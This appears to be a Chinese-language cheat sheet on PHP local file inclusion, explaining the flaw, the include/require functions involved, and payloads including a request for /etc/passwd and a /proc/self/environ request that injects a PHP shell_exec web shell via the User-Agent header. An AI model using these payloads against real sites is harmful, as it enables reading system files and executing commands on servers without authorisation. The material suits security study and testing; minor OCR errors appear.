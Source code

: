 # 本地文件包含

本地文件含的定义：
能够打开并包含本地文件的漏洞，被称为本地文件包含漏洞(Local File Inclusion LFI)

本地文件包含执行的首要条件：allow_url_include=On

本地文件包含的危害：

*	越权访问文件(/etc/passwd)

		1.00截断

		2.超长截断

		3.目录遍历

*	任意代码执行

		1.通过正常、非正常将一个包含有脚本代码的文件上传到服务器上(常常是.jpg图片格式，将代码藏在图片中)，然后在攻击paylaod中引入这个包含脚本代码的文件，使代码得以执行(图片木马)

		2.通过包含服务器上的WEB系统原本就存在的.php脚本文件达到改变代码逻辑的目的

		3.通过RFI(远程文件包含)将I/O流、协议流的资源描述符作为文件包含的输入源，从而利用HTTP通信将任意代码注入原始的脚本执行空间中

*	php中引发文件包含漏洞的通常是以下四个函数：

		include()	执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行

		include_once()	若文件中代码已被包含则不会再次包含

		require()	只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本

		require_once()	若文件中代码已被包含则不会再次包含

*	jsp/Servlet

		ava.io.file() , java.io.filereader() ....

*	asp

		include file , include virtual ....


## 1) 直接本地包含
```
http://site.com/lfi.php?page=/etc/passwd
```

## 2) /proc/self/environ
```
GET /lfi.php?page=/proc/self/environ&cmd=id HTTP/1.1
Host: www.site.com
User-Agent: <?php echo shell_exec($_GET['cmd']);?>
```

## 3) 包含图片/文本
如果包含的图片或者文本中存在php代码，它将被解析执行。
